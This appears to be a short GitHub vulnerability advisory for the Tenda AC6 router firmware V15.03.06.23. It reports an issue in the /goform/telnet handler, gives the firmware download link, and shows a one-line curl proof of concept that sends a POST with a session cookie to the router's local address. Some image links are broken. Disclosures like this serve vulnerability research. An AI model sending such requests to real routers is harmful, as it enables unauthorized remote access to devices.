 ## Tenda AC6 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC6
* Version: V15.03.06.23_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC6/AC6V2.0_V15.03.06.23_multi.zip

### Vulnerability details

An issue was discovered in Tenda AC6 V15.03.06.23_multi. An HTTP request within the handler function of the `/goform/telnet` route. This could lead to Shell Metacharacters.![image](./img/1.png)

#### PoC

```
 curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df
 9d1c0835927e379ccc302b848f4aouh1qw"
```

![image-20250413210610225](D:\0Project\IOT\AutoPostCve\VulnForIoT\Tenda_AC\AC6_telnet\readme.assets\2.png)
